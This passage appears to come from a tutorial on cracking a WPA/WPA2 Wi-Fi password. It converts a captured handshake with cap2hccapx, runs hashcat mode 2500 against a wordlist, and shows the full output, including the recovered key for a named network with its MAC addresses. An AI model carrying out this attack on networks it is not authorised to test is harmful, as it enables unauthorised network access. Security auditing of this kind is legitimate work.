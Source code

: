 Good... let's convert our file:

```
$ cap2hccapx.bin data-01.cap output.hccapx
Networks detected: 1

[*] BSSID=9c:4f:cf:83:2d:ed ESSID=Internet Movil Orange_2DED (Length: 26)
 --> STA=c0:ee:fb:33:a9:e0, Message Pair=0, Replay Counter=0
 --> STA=c0:ee:fb:33:a9:e0, Message Pair=2, Replay Counter=0

Written 2 WPA Handshakes to: output.hccapx
```

Excellent, now we're ready:

```
$ hashcat -m 2500 output.hccapx passwords.txt
hashcat (v4.1.0-90-geb563f5a) starting...

OpenCL Platform #1: Apple
=========================
* Device #1: Intel(R) Core(TM) i7-3520M CPU @ 2.90GHz, skipped.
* Device #2: HD Graphics 4000, 384/1536 MB allocatable, 16MCU

Hashes: 2 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Minimum password length supported by kernel: 8
Maximum password length supported by kernel: 63

Watchdog: Temperature abort trigger disabled.

Dictionary cache built:
* Filename..: passwords.txt
* Passwords.: 1679616
* Bytes.....: 15116544
* Keyspace..: 1679616
* Runtime...: 0 secs

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit =>

f8c03f93dd1affe7727f5e4c78a4d9b1:9c4fcf832ded:c0eefb33a9e0:Internet Movil Orange_2DED:CF832DED

Session..........: hashcat
Status...........: Cracked
Hash.Type........: WPA/WPA2
Hash.Target......: Internet Movil Orange_2DED (AP:9c:4f:cf:83:2d:ed STA:c0:ee:fb:33:a9:e0)
Time.Started.....: Sat Sep 29 20:04:06 2018 (7 mins, 42 secs)
Time.Estimated...: Sat Sep 29 20:11:48 2018 (0 secs)
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#2.....:     3122 H/s (9.08ms) @ Accel:8 Loops:2 Thr:512 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1441792/1679616 (85.84%)
Rejected.........: 0/1441792 (0.00%)
Restore.Point....: 1376256/1679616 (81.94%)
Candidates.#2....: XTTB2DED -> ISI52DED

```